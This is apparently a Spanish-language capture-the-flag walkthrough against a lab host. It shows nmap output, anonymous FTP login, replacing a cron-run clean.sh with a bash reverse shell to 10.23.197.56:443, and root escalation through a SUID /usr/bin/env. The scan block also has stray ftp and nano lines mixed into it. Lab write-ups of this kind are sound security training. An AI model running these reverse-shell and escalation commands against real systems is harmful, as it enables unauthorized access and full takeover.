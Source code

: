 
---

- Escaneo de Puertos

```bash
❯ cd nmap
❯ ftp 10.201.34.27
Connected to 10.201.34.27.
  GNU nano 7.2                                                                          Targeted                                                                                       
Not shown: 65493 closed tcp ports (reset), 40 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.23.197.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCi47ePYjDctfwgAphABwT1jpPkKajXoLvf3bb/zvpvDvXwWKnm6nZuzL2HA1veSQa90ydSSpg8S+B8SLpkFycv7iSy2/Jmf7qY+8oQxWThH1fwBMIO5g/TTtRRta6IPoKaMCle8hnp5pS>
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPjHnAlR7sBuoSM2X5sATLllsFrcUNpTS87qXzhMD99aGGzyOlnWmjHGNmm34cWSzOohxhoK2fv9NWwcIQ5A/ng=
|   256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDHIuFL9AdcmaAIY7u+aJil1covB44FA632BSQ7sUqap
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 25 18:17:44 2025 -- 1 IP address (1 host up) scanned in 35.40 seconds

```

- Encontramos que el puerto 21 tiene sesion abierta con el usuario "Anonymous"

- Entramos y vemos un directorio scripts y unos scripts los cuales se ejecutan periódicamente por lo que cambiamos el contenido del script de bash y le ponemos una reverse shell de esta forma:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.23.197.56/443 0>&1        # Este es el codigo que normalmente se ejecuta         

```

*Después subimos el archivo por ftp SIN BORRAR el que ya estaba, solo lo colocamos con el comando put clean.sh, con el mismo nombre de script*

- Nos ponemos en escucha y esto no dara una reverse shell, procedemoos con la escalda de privilegios de la siguiente forma:

```bash

find / -perm -4000 2>/dev/null    # Buscamos binarios con permisos SUID y encontramos /usr/bin/env

/usr/bin/env /bin/sh -p           # Procedemos con la escalda de privilegios 
```

